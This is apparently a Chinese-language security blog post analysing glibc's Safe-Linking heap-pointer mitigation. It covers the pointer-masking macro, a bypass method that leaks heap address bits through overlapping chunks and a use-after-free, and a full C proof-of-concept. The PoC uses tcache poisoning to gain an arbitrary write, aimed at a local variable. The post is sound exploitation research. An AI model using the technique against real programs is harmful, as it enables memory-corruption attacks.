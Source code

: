 ```yaml
---

layout: post

title: 'Safe-Linking机制分析'

date: '2020-06-04'

header-img: "img/home-bg.jpg"

tags:
     - 学习笔记  
author: 'De4dCr0w'

---
```


<!-- more -->

### 环境搭建

下载glibc引入Safe-Linking机制版本：

```
git clone git://sourceware.org/git/glibc.git
cd glibc
git checkout 76d5b2f002a1243ddba06bd646249553353f4322
```

编译：

```
cd glibc
mkdir build
cd build
../configure --prefix=/usr/local/glbic/glibc2.31
make
sudo make install
```

指定glibc编译poc代码：

```c
gcc poc.c -o poc -g -Wl,--rpath=/usr/local/glbic/glibc2.31/libc -Wl,--dynamic-linker=/usr/local/glbic/glibc2.31/lib/ld-linux-x86-64.so.2
```

安装pwngdb，之后就可以愉快地调试了。

### Safe-Linking 机制分析

打算从glibc 2.32引入Safe-Linking 保护，将堆块头部保存的地址重新计算，具体计算过程如下：

```c
#define PROTECT_PTR(pos, ptr, type)  \
        ((type)((((size_t)pos) >> PAGE_SHIFT) ^ ((size_t)ptr)))
#define REVEAL_PTR(pos, ptr, type)   \
        PROTECT_PTR(pos, ptr, type)
```

将指针的地址右移PAGE_SHIFT 再和指针本身异或，如下，L为指针的地址，P为指针本身，该操作是可逆的，取指针时再做一次操作就可以还原得到原来的指针：

![img](D:\github\De4dCr0w.github.io\image\2020-06-04-Safe-Linking机制分析\4.png)

上述这种方法相当于对指针进行了随机化，有点想linux 内核下CONFIG_SLAB_FREELIST_HARDENED的缓解机制，CONFIG_SLAB_FREELIST_HARDENED的计算是：

```c
下一个free object的地址 = random ^ 当前free object的地址 ^ 当前free object 原本fd处的值
```

在 kmem_cache 增加了一个unsigned long类型的变量random。

### Safe-Linking 机制绕过

主要就是泄漏L>>12的值，通过构造堆块，使得chunkC被包含在一个大堆块中，有两个指针同时指向chunkC，造成UAF，释放一个chunkC指针到tcache中，此时chunkC为tcache中第一个bin，fd引入补丁前填充的是0，此时因为Safe-Linking，P' = L >> 12 ^ P = L >> 12 ^ 0 = L >> 12。所以fd填充的是L>>12的值，所以通过另一个chunkC指针就可以泄露该值，后续将目标地址和L12异或计算填充到fd，就可以达到任意地址的读写。

以下demo代码最终效果是将arbitrary_variable变量改写成0x112233445566。并且没有Safe-Linking的引入，demo代码也能达到相同效果，因为此时泄露出来的L>>12为0，目标地址和0异或还是正确的地址。

综上所述，要绕过Safe-Linking主要就是泄露L的信息。其实如果能泄露堆的地址其实也可以。

验证代码：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <inttypes.h>

#define SAFE_FREE(p) { free(p); p = NULL; }

char *payload = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
                "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
                "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x40\x01\x00\x00\x00\x00"
                "\x00\x00\xa0";

char *payload2 = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
                 "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
                 "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x41\x01";

uint64_t screw_up_alignment = 0x4a4a4a4a;
uint64_t arbitrary_variable = 0x11111111;

int bypass_demo() {
    void *tcache_allocs[7];

    for( int i = 0; i < 7; i++) {
        tcache_allocs[i] = malloc(0x98);
    }

    char *chunkA = malloc(0x98);
    char *chunkB = malloc(0x98);
    char *chunkC = malloc(0x98);
    char *chunkD = malloc(0xb8);

    for( int i = 0; i < 7; i++) {
        SAFE_FREE(tcache_allocs[i]);
    }

    SAFE_FREE(chunkB);

    memcpy(chunkC, payload, 0x99);

    chunkD[0x98] = '\x21';

    memcpy(chunkA, payload2, 0x9a);

    SAFE_FREE(chunkD);

    for( int i = 0; i < 7; i++) {
        tcache_allocs[i] = malloc(0x98);
    }

    char *junk = malloc(0x98);
    char *chunkC2 = malloc(0x98);

    SAFE_FREE(chunkC2);

    uint64_t L12 = *(int64_t *)chunkC;

    uint64_t masked_ptr = L12 ^ (((uint64_t) &arbitrary_variable) & ~0xf);
    uint64_t *chunkC3 = malloc(0x98);

    SAFE_FREE(tcache_allocs[0]);

    SAFE_FREE(chunkC3);

    *(uint64_t *) chunkC = masked_ptr;
    
    char *junk2 = malloc(0x98);
    uint64_t *winner = malloc(0x98);

    *(winner+1) = 0x112233445566;

    printf("\nArbitrary variable now contains 0x%lx\n", arbitrary_variable);
}

int main() {
    bypass_demo();
    return 0;
    
}
```



### 参考链接：

在uclibc-ng中引入的补丁：https://gogs.waldemar-brodkorb.de/oss/uclibc-ng/commit/886878b22424d6f95bcdeee55ada72049d21547c  就是在取p->fd和存放p->fd时都改成调用REVEAL_PTR

https://research.checkpoint.com/2020/safe-linking-eliminating-a-20-year-old-malloc-exploit-primitive/  机制介绍

https://www.researchinnovations.com/post/bypassing-the-upcoming-safe-linking-mitigation 机制绕过

 